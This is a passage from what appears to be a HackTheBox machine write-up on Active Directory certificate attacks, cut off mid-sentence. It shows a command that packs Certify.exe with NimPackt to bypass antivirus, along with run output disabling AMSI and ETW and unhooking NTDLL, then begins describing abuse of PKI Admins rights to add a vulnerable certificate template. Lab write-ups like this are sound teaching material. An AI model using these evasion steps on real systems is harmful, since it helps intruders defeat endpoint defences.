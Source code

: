 ### AV Bypass

As a side note I was able to bypass AV using [NimPackt](https://github.com/chvancooten/NimPackt-v1).

```bash
❯ docker run --rm -v `pwd`:/usr/src/np -w /usr/src/np chvancooten/nimbuild python3 NimPackt.py -e execute-assembly -i Certify.exe -S -v
WARNING: Shinject arguments (-r, -t, -E) will be ignored in 'execute-assembly' mode.
Encrypting binary to embed...
Prepared Nim source file.
Cross-compiling Nim binary for Windows (this may take a while)...
Compiled Nim binary to output/CertifyExecAssemblyNimPackt.exe!
SHA1 hash of file to use as IOC: e85a9914d89f31e36eefe62e19802ea5c79182b8
Go forth and make a Nimpackt that matters 😎
```

```powershell
*Evil-WinRM* PS C:\Users\e.black\Documents> .\CertifyExecAssemblyNimPackt.exe find /vulnerable
NimPackt
[*] AMSI disabled: true
[*] ETW disabled: true
[*] Executing shellycoat in local thread to unhook NTDLL...
[*] NtAllocateVirtualMemory: 0
[*] NtWriteVirtualMemory: 0
    \-- bytes written: 12287
[*] Executing assembly...

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

---snip---
---snip---

[+] No Vulnerable Certificates Templates found!
```

### Abusing PKI Admins

I wasn't able to find any attack vectors here for a while, after looking at HackTheBox forums, I realized that, being a member of the PKI Admins, I have the permissions to manage and add templates. There's no reason why the added template couldn't be a vulnerable one that I can exploit.

After some google-fu I found [GoateePFE/ADCSTemplate](https://github.com/GoateePFE/ADCSTemplate) which can be used to easily manipulate certificates.

Initially, I tried

